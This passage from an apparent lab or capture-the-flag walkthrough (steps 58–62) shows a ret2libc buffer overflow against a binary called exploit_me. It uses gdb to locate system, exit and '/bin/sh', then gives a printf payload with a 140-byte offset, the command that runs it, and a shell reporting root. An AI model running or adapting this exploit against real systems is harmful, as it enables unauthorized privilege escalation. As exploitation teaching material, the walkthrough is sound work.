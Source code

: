 58. Inspecting Addresses of `system` and `exit`

	```gdb
	p system
	p exit
	```

	Outputs:

	```
	$1 = 0xb7e6b060 <system>
	$2 = 0xb7e5ebe0 <exit>
	```

59. Checking Memory Maps

	```gdb
	info proc map
	```

	Shows loaded memory regions, including libc and stack addresses.

60. Finding `/bin/sh` String in Memory

	```gdb
	find 0xb7e2c000,0xb7fcf000,"/bin/sh"
	```

	Found at:

	```
	0xb7f8cc58
	```

61. Constructing the Exploit Payload

	* Stack buffer size: 144 bytes
	* Offset to return address: 140 bytes
	* Overwrite return address with `system()` address (`0xb7e6b060`)
	* Next address: `exit()` (`0xb7e5ebe0`) to safely terminate
	* Argument to `system()`: address of string `"/bin/sh"` (`0xb7f8cc58`)

	Final payload (in bash):

	```bash
	printf 'A%.0s' {1..140}; printf '\x60\xb0\xe6\xb7\xe0\xeb\xe5\xb7\x58\xcc\xf8\xb7'
	```

62. Executing the Exploit

	```bash
	./exploit_me "$(printf 'A%.0s' {1..140}; printf '\x60\xb0\xe6\xb7\xe0\xeb\xe5\xb7\x58\xcc\xf8\xb7')"
	```

	After running, spawn a shell and check privileges:

	```bash
	whoami
	```

	Output:

	```
	root
	```
